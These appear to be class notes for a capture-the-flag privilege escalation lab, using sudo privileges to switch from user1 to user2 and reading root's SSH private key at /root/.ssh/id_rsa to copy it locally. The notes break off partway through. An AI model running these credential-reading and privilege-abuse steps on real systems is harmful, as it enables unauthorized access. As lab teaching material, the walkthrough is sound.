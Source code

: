 
# Class Exercise Notes & Step-by-Step Guide

Below are the exact steps and commands to complete the two prompts in your exercise. Follow them in order and copy/paste the commands where appropriate.

---

## Exercise: Prompt 1 — Move from `user1` → `user2` and read `/home/user2/flag.txt`

1. SSH into the server using the provided credentials and port:
```bash
ssh [given user]@[given ip] -p [given port number of target IP]
```

2. Once logged in, check sudo privileges:
```bash
sudo -l
```

3. If `sudo -l` shows you can become `user2` (or run commands as `user2`), switch to `user2`:
```bash
sudo -su user2
```

4. Move into their home directory, list files, and read the flag:
```bash
cd ~
ls
cat flag.txt
```

If those exact commands aren’t available, use the `sudo -l` output to see what you *are* allowed to run and hunt for a permitted binary to abuse (see GTFOBins).

---

## Exercise: Prompt 2 — From `user2` → root and read `/root/flag.txt`

**Goal:** use anything you can read (keys, credentials) or any writable locations to get root.

1. Confirm your identity and look for keys:
```bash
whoami
cat /root/.ssh/id_rsa
```
If `cat /root/.ssh/id_rsa` returns a private key, copy its contents.

2. Switch to your local terminal (a new console on your Hack The Box / local machine — not inside the `user2` shell) and create a local file `id_rsa`:
```bash
vim id_rsa
```
- Paste the private key contents from `cat /root/.ssh/id_rsa`.
- If you need to remove extra lines in vim, use visual line select: press `Shift + V`, move, then `dd`.  
  (Source: Stack Overflow — “How can I delete multiple lines in vi?”)

